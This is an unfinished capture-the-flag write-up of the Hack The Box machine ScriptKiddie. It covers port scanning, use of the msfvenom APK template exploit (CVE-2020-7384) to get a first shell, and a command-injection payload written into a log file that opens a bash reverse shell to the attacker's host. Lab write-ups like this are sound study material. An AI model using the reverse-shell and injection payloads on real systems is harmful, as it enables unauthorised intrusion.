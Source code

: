# CTF - [HTB ScriptKiddie](http://10.10.10.226:5000/)
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
| http-methods: 
|_  Supported Methods: HEAD POST GET OPTIONS
|_http-title: k1d'5 h4ck3r t00l5
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<br/><br/>
Found a site with input fields that could be potential entry points.
<br/><br/>
![Screenshot at 2021-12-03 21-38-40](https://user-images.githubusercontent.com/59718043/144700412-347e85cf-7ea9-498c-807e-81c702acb9a0.png)
<br/><br/>
Another potential vulnerability: `Werkzeug/0.16.1 Python/3.8.5`.

<br/><br/>
Knowing that the site executes binaries from a Linux server, first I tried command injection on the input fields, but unfortunately that didn't work.<br/><br/>
![Screenshot at 2021-12-04 20-32-13](https://user-images.githubusercontent.com/59718043/144734995-99ddb895-5b05-4349-83a1-cea76b3c060d.png)

<br/><br/>
One of the executable programs on this web app is msfvenom. According to searchsploit, msfvenom is vulnerable to [CVE 2020-7384](https://www.exploit-db.com/exploits/49491).
```
└──╼ $searchsploit msfvenom                                                        │                             
------------------------------------------------- ---------------------------------│                   
 Exploit Title                                   |  Path                           │
------------------------------------------------- ---------------------------------│
Metasploit Framework 6.0.11 - msfvenom APK templ | multiple/local/49491.py         │
------------------------------------------------- ---------------------------------│
Shellcodes: No Results
```
<br/><br/>
Used this Metasploit module and ran it, which then returns an APK file that I used to upload to the site's msfvenom payload generator while my netcat is running. This gave me a shell.
<br/><br/>
```
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
10.10.10.226: inverse host lookup failed: Unknown host
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.226] 35390
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```
<br/><br/>
The user.txt flag can be found under the usual user home directory (/home/kid/).
 
There is another user `pwn`, the plan was to find a way to this account. I used a [secjuice]() writeup for this part as I hit a roadblock. 
 ```
 $ nc -nvlp 4445
 ```
Looking at the `scanlosers.sh` file in /home/pwn, the script is vulnerable to command injection. This payload contains a reverse shell that we can push to the log file `hackers`. 
 ```
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.3/4445 0>&1' # ." > hackers
 ```
 ```
 $ nc -nvlp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.10.226 42332
bash: cannot set terminal process group (866): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ 
 ```
```
TO BE CONTINUED  
```
